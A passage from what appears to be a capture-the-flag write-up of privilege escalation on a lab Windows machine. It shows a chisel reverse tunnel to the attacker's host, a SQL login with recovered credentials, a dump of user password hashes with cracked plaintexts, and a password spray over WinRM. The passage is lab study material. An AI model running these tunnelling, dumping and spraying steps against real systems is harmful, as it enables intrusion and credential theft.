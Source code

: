 And now we have a connection.

# Privilege Escalation

Start a chisel connection to access the sql server:

```console
zero@pio$ chisel server --reverse --port 8000
```

```console
PS C:\ProgramData> .\chisel.exe client 10.10.16.44:8000 R:1433:127.0.0.1:1433
```

Now make a connection with the previous founded credentials:

```console
zero@pio$ sqsh -S 127.0.0.1:1433 -U db_admin -P B1@hx31234567890 -D streamio_backup
```

We can found there some credentials:

```console
1> select username,password from users;
2> go    

 username        password
--------------- ----------------------------------

 nikk37          389d14cb8e4e9b94b137deb1caf0612a
 yoshihide       b779ba15cedfd22a023c4d8bcf5f2332
 James           c660060492d9edcaa8332d89c99c9239
 Theodore        925e5408ecb67aea449373d668b7359e
 Samantha        083ffae904143c4796e464dac33c1f7d
 Lauren          08344b85b329d7efd611b7a7743e8a09
 William         d62be0dc82071bccc1322d64ec5b6c51
 Sabrina         f87d3c0d6c8fd686aacc6627f1f493a5
```

Cracked them and get:

```
get_dem_girls2@yahoo.com (nikk37)
66boysandgirls..         (yoshihide)
##123a8j8w5123##         (Lauren)
!!sabrina$               (Sabrina)
```

We can start trying them with crackmapexec:

```console
zero@pio$ crackmapexec winrm 10.10.11.158 -u users -p passwords

	WINRM       10.10.11.158    5985   NONE             [+] None\nikk37:get_dem_girls2@yahoo.com (Pwn3d!
```

We can make the first connection to the system with `evil-winrm` :
